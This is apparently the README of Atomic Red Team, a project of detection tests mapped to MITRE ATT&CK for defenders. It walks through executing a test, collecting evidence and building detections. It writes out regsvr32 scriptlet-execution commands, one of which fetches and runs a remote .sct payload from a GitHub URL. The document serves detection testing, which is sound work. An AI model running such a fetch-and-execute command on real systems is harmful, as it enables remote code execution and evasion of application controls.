 # Atomic Red Team

Small and highly portable detection tests mapped to the [Mitre ATT&CK Framework.](https://attack.mitre.org/wiki/Main_Page)

## Mitre ATT&CK Matrix

We broke the repository into three working matrices:

[Windows MITRE ATT&CK Matrix](Windows/Windows.md)

[Mac MITRE ATT&CK Matrix](Mac/Mac.md)

[Linux MITRE ATT&CK Matrix](Linux/Linux.md)

## How to use Atomic Red Team

Our Atomic Red Team tests are small, highly portable detection tests mapped to the MITRE ATT&CK Framework. Each test is designed to map back to a particular tactic. We hope that this gives defenders a highly actionable way to immediately start testing their defenses against a broad spectrum of attacks.

* Be sure to get permission and necessary approval before conducting tests. Unauthorized testing is a bad decision, and can potentially be a resume-generating event.

* Set up a test machine that would be similar to the build in your environment. Be sure you have your collection/EDR solution in place, and that the endpoint is checking in and active.

* Spend some time developing a test plan or scenario. This can take many forms. An example test plan could be to execute all the Discovery phase items at once in a batch file, or run each phase one by one, validating coverage as you go.

There are three phases to the testing framework:

![Phases](https://www.redcanary.com/wp-content/uploads/image2-5.png)

### Phase 1: Execute Test

This particular test is fairly easy to exercise, since the tool is default on all Windows workstations.

The details of this test case are [here](Windows/Execution/Regsvr32.md).

Two methods are provided to perform the Atomic Test:

#### Local

For a local simulation use the provided .sct file:

    regsvr32.exe /s /u /i:file.sct scrobj.dll

#### Remote

For a remote simulation you will need a remotely accessible server to grab/download this file, or use gist:

    regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/RegSvr32.sct scrobj.dll

### Phase 2: Collect Evidence

What does your security solution observe? You may see a file modification in the user’s profile. You may detect network connections made by regsvr32.exe to an external IP. There may be an entry in the proxy logs. You may observe the scrobj.dll loading on Windows. Or, you might not observe any behavior on the endpoint or network. This is why we test! To identify visibility gaps and determine where improvements need to be made.

![RC Timeline](https://www.redcanary.com/wp-content/uploads/image9-1.png)

![Cb example 1](https://www.redcanary.com/wp-content/uploads/image5-3.png)

![Cb Example 2](https://www.redcanary.com/wp-content/uploads/image7-2.png)

### Phase 3: Develop Detection

So you executed the test and none of your defenses fired – that’s why we test! Based on your observations and detection capabilities, it is time to use what you have to try to detect this event in your environment.

![Unwind Data](https://www.redcanary.com/wp-content/uploads/image8-1.png)

Once the detection is built, it is time to validate that the detection is working and that it is appropriately tuned. If you were to write your detection too broadly and “detect” every regsvr32.exe, you are going to be digging out from a mountain of false positives. But if you write it too narrow and it only detects regsvr32.exe with the exact command line “/s /u /i” then all an attacker has to do is slightly modify the command line to evade your detection.

### Measure Progress

One of the goals is to try to measure your coverage/capabilities against the ATT&CK Matrix and to identify where you may have gaps. Roberto Rodriguez ([@cyb3rWar0g](https://twitter.com/Cyb3rWard0g)) provided [this spreadsheet](https://github.com/Cyb3rWard0g/ThreatHunter-Playbook/blob/master/metrics/HuntTeam_HeatMap.xlsx) and complementary [blog post](https://cyberwardog.blogspot.com/2017/07/how-hot-is-your-hunt-team.html) showcasing how to determine where you stand within your organization in relation the MITRE ATT&CK Matrix.

![HeatMap](https://www.redcanary.com/wp-content/uploads/image4-5.png)

![Measure](https://www.redcanary.com/wp-content/uploads/image6-2.png)




#### We did not create the MITRE ATT&CK Framework, we just think it is awesome and extensive.

#### ATT&CK and ATT&CK Matrix are trademarks of The MITRE Corporation
